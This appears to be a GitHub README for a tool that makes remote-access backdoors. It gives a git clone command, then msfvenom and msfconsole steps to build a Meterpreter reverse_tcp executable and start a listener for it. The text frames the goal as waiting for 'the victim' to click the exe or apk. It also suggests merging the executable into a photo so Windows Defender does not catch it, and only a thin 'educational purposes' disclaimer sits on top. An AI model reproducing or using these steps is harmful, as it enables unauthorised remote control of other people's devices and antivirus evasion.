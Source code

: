 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of danger we are not responsible for any damages due to improper use


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To make something like back door and so one to completely remote a PC or android phone Just one click on the file "exe, apk" 
and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …


 # [+]How to Download
open you terminal as root " be careful with your path "

git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

sodu su  


**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**


Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE
 
 Tip 
 
 
 you can merge yout exe file in a photo to prevent windows defenter detect the virus , or merge it by the way you like it

Happy hacking , Good luck friend
